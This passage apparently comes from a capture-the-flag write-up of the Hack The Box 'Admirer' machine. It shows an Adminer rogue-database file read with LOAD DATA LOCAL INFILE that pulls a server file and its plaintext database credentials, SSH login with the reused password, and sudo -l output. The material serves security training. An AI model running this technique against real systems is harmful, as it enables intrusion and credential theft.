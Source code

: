 ```
root@kali:/home/kali/htb/Admirer/html/utility-scripts# 
```

And I find adminer.php

I set up a local mariadb, create a new database called "admire" and a new table called info.

I then go into the adminer.php page and enter my ip and creds to get access.

I go into the SQL command page and then I can read local files with `LOAD DATA LOCAL INFILE '<file path>'`

So we know that there was some creds on the previous index.php file, so what if we try that:

```
LOAD DATA LOCAL INFILE '/var/www/html/index.php'
INTO TABLE admirer.info
FIELDS TERMINATED BY "\n";
```

So we are loading the local file into our local database, and then we are separating the entries by newlines.

We can then read from our local database with `SELECT * from admirer.info`

And I get the index.php page which includes:

```
    $servername = "localhost";
    $username = "waldo";
    $password = "&<h5b~yK3F#{PaPB&dA}{H>";
    $dbname = "admirerdb";
```

So I try ssh:

```
root@kali:/home/kali/htb/Admirer# ssh waldo@10.129.117.11
The authenticity of host '10.129.117.11 (10.129.117.11)' can't be established.
ECDSA key fingerprint is SHA256:NSIaytJ0GOq4AaLY0wPFdPsnuw/wBUt2SvaCdiFM8xI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                    
Warning: Permanently added '10.129.117.11' (ECDSA) to the list of known hosts.
waldo@10.129.117.11's password: 
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Wed Apr 29 10:56:59 2020 from 10.10.14.3
/usr/bin/xauth:  file /home/waldo/.Xauthority does not exist
waldo@admirer:~$ id
uid=1000(waldo) gid=1000(waldo) groups=1000(waldo),1001(admins)
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
waldo@admirer:~$ 
```
